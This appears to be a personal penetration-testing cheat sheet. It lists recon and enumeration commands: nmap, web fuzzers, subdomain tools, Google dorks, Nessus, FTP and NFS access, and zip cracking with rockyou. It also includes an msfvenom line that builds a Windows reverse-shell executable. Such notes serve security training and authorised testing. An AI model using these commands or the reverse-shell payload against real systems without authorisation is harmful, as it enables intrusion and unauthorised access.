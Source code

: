 
What should be our Methodology when we are seeing a Website  ??
- Service Version Information
- Backend Directory's
- Looking for Source Code
- Potential Vulnerability Scanning With Nikto

<h2>Nmap</h2>

Normal Nmap Scanning
```
nmap -T4 -p- -A -Pn <IP_Address>
```

```
nmap -sS -T4 -p- -Pn <IP_Address>
```

```
nmap -sU -T4 --top-ports 1000 <IP_Address>
```

Ping Sweep
```
nmap -sn -n 10.200.95.0/24 -oA Ping-Sweep
```

```
nmap -sS 10.200.145.33 10.200.145.250 -v -oA Initial-Scan-Subnet1-Hosts
```

<h2>Nikto</h2>
```
 nikto -h <IP_Address>
```

<h2>Fuzzing</h2>
>[!important]  Gobuster

Vhost
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://<IP_Address> -o gobuster/vhost-sub.txt -t 2
```

```
gobuster vhost -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u http://<IP_Address> -t 2 -o gobuster/vhost-sub.txt
```



>[!important] Wfuzz
```
wfuzz -u <URL> -w <wordlist> -H "Host: FUZZ.example.com" --hc <status codes to hide>
```

```
wfuzz -u http://<Hostname> -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt  -H "Host: FUZZ.<hostname>" --hc 400
```

```
--hc Hide status code
--hw Hide word count
--hl Hide line count
--hh Hide character count
```


>[!important] ffuf
```
ffuf -u http://holo.live -w /usr/share/wordlists/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -H "HOST:FUZZ.holo.live" -mc 200 -o fuzz_holo.txt
```

```
Response code :
200 means ok
400 means error (i.e. 404 page not found)
300 means redirect
500 means server error
```

>[!important] 


<h2>Sub-Domains</h2>
Sublist3r
```
sublist3r -d <domain_name> -t 100
```

Amass
```
amass enum -d tesla.com 
```

```
amass intel -d tesla.com -whois
```

Httpprobe
```
cat domains.txt | httprobe >> working_domains.txt
```


<h2>Enumeration</h2>
```
wpscan -url <IP_address>    
```


```
whatweb <domain_name>
```


<h2>Google Dorks</h2>
```
site:tesla.com 
```

```
site:tesla.com -www
```

```
site:tesla.com -www -ir 
```

```
site:tesla.com filetype:docx
```

```
site:tesla.com filetype:pdf
```




<h2>Nessus</h2>
```
sudo dpkg -i Nessus-10.2.0-fbsd11-amd64.deb
```

New Scan ---> Vulnerability ---> Basic Network Scan

```
/bin/systemctl start nessusd.service
```

```
https://kali:8834/ 
```

 NEVER TRUST a vulnerability scanner always find it and verify it........


<h2>IP</h2>
```
After we run this command than only we were able to see the IP address.
Command : dhclient
Command : ip a 
```


<h2>ARP-Scan</h2>
```
arp-scan -l
```


<h2>FTP</h2>
```
FTP <ip address>
```

if want to download all the files:
```
wget -m ftp://anonymous:anonymous@10.10.10.98 #Donwload all
```

```
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98 #Download all
```


<h2>NFS</h2>
```
Command : showmount -e <Ip address>
where e is used to list out the directories (i.e. mounted file share)
```

```
Command : mkdir /mnt/dev
Command : mount -t nfs 192.168.205.132/srv/nfs /mnt/dev
```

```
Now will make a directory to mount this file share (i.e. /srv/nfs )
will cd to /mnt (i.e. will have a by default directory named mnt )
where t is tack and nfs is the type 
```



<h2>Crack ZIP</h2>
```
 fcrackzip -v 
```

```
 fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
```


<h2>MS Venom</h2>
```
Command : msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.205.128 LPORT=7777 -f exe > Wise.exe
```
where p is payload and f is filetype -o/> for output file



<h2>Dnsrecon </h2>
```
Command : dnsrecon -r 127.0.0.0/24 -n 192.168.205.134 -d blah
```

```
As there is dns record named blackpearl.tcm and have to add that in our Dns and etc/hosts file
Command : nano /etc/hosts (i.e. we have to add the edit the hosts file and not host)
And add 
192.168.205.134 blackpearl.tcm and save it 
```


